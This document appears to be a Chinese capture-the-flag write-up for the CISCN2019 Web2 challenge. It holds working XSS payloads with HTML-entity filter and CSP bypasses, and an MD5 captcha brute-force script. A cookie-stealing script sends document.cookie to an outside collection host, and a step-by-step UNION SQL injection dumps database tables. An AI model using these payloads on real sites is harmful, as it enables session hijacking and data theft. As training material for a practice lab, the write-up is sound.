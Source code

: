 # \[CISCN2019 华东北赛区]Web2

## \[CISCN2019 华东北赛区]Web2

## 考点

* xss
* sql注入

## wp

登录注册，有个投稿和反馈的功能。

投稿输入

```javascript
<img src="ssssss.png" onerror="javascript:alert(1)" /> 
```

得到文章页面，访问发现存在过滤

```javascript
<img waf等于号”ssssss.png”="" onerror等于号”javascript:alert（1）”="">
```

反馈处有提示`请输入有问题的网址。我会亲自查看`，应该是个XSS，在投稿插入XSS语句，在反馈处让bot访问XSS页面窃取cookie

反馈处的验证要求验证码md5的前6位符合要求，爆破脚本如下

```python
import hashlib

for i in range(1, 10000001):
    s = hashlib.md5(str(i).encode()).hexdigest()[0:6]
    if s == "0fc428":
        print(i)
        break
```

接下来是如何绕过XSS的过滤。测试发现会把`英文的单双引号，英文的括号`换成`中文`的，然后`<,>svg,eval,script`都没过滤。可以尝试HTML实体编码绕过，`'`是`&#x27;`，`"`是`&#x22;`，`(`是`&#x28;`，`)`是`&#x29;`，=是`&#x3D;`

如下payload可以弹窗

```
<svg><script>alert&#x28;1&#x29;</script></svg>
<svg><script>eval&#x28;atob&#x28;&#x27;YWxlcnQoMSk&#x3D;&#x27;&#x29;&#x29;</script></svg>
<svg><script>&#x65;&#x76;&#x61;&#x6c;&#x28;&#x61;&#x74;&#x6f;&#x62;&#x28;&#x27;&#x59;&#x57;&#x78;&#x6c;&#x63;&#x6e;&#x51;&#x6f;&#x4d;&#x53;&#x6b;&#x3d;&#x27;&#x29;&#x29;</script></svg>
```

编码脚本

```python
res = ''
s="eval(atob('YWxlcnQoMSk='))"
for i in s:
    res = res + '&#' +hex(ord(i))[1:] + ';'
```

发现有CSP，可以使用跳转绕过

* `default-src 'self'` 所有的外部资源只能从当前域名加载
* `script-src unsafe-inline` 允许执行页面内嵌的标签和事件监听函数
* `script-src unsafe-eval` 允许将字符串当作代码执行，比如使用eval、setTimeout、setInterval和Function等函数

![](<../.gitbook/assets/image (2).png>)

到XSS平台新建个项目，然后访问script脚本，得到代码

```javascript
(function() { (new Image()).src = 'https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location=' + encodeURIComponent((function() {
        try {
            return document.location.href
        } catch(e) {
            return ''
        }
    })()) + '&toplocation=' + encodeURIComponent((function() {
        try {
            return top.location.href
        } catch(e) {
            return ''
        }
    })()) + '&cookie=' + encodeURIComponent((function() {
        try {
            return document.cookie
        } catch(e) {
            return ''
        }
    })()) + '&opener=' + encodeURIComponent((function() {
        try {
            return (window.opener && window.opener.location.href) ? window.opener.location.href: ''
        } catch(e) {
            return ''
        }
    })());
})();
```

然后把(new Image()).src改成window.location.href，结果如下

```javascript
(function() { window.location.href = 'https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location=' + encodeURIComponent((function() {
        try {
            return document.location.href
        } catch(e) {
            return ''
        }
    })()) + '&toplocation=' + encodeURIComponent((function() {
        try {
            return top.location.href
        } catch(e) {
            return ''
        }
    })()) + '&cookie=' + encodeURIComponent((function() {
        try {
            return document.cookie
        } catch(e) {
            return ''
        }
    })()) + '&opener=' + encodeURIComponent((function() {
        try {
            return (window.opener && window.opener.location.href) ? window.opener.location.href: ''
        } catch(e) {
            return ''
        }
    })());
})();
```

用脚本生成一下payload，在XSS平台可以看到自己的cookie

```python
s = '''(function(){window.location.href='https://as.vip/bdstatic.com/?callback=jsonp&id=nRaT&location='+encodeURIComponent((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+encodeURIComponent((function(){try{returntop.location.href}catch(e){return ''}})())+'&cookie='+encodeURIComponent((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+encodeURIComponent((function(){try{return (window.opener&&window.opener.location.href)?window.opener.location.href:''}catch(e){return''}})());})()'''
output = ""

for i in s:
    output += "&#" + hex(ord(i))[1:] + ";"

print("<svg><script>eval&#x28;&#x22;" + output + "&#x22;&#x29;</script></svg>")
```

<mark style="color:red;">然后到反馈里面填链接如下</mark>

```
http://web.node3.buuoj.cn:81/post/8933fc518918c6156409c3c2fe884a5f.html
```

![](<../.gitbook/assets/image (11) (1).png>)

修改cookie再去访问admin.php，发现是个查询的功能

![](<../.gitbook/assets/image (28) (1).png>)

尝试SQL注入，输入`id=3-1`，得到`id=2`的结果，是数字型注入

然后尝试联合注入`id=-1 union select 1,2,3`

当前数据库`id=-1 union select 1,(select database()),3` 得到`ciscn`

查询所有数据库`id=-1 union select 1,(select group_concat(schema_name) from information_schema.schemata),3`

得到`information_schema,ctftraining,mysql,performance_schema,test,ciscn`

当前数据库的表`id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ciscn'),3`

得到`flag,users`

查询flag表`id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='flag'),3`

得到`flagg`

查询flag `id=-1 union select 1,(select flagg from flag),3`

可以得到flag

![](<../.gitbook/assets/image (14).png>)

## 小结

1. XSS绕过的方式可以用HTML实体转义，有两种方式`&#x十六进制;`和`&#十进制;`
2. CSP绕过可以尝试`window.location.href`跳转的方式

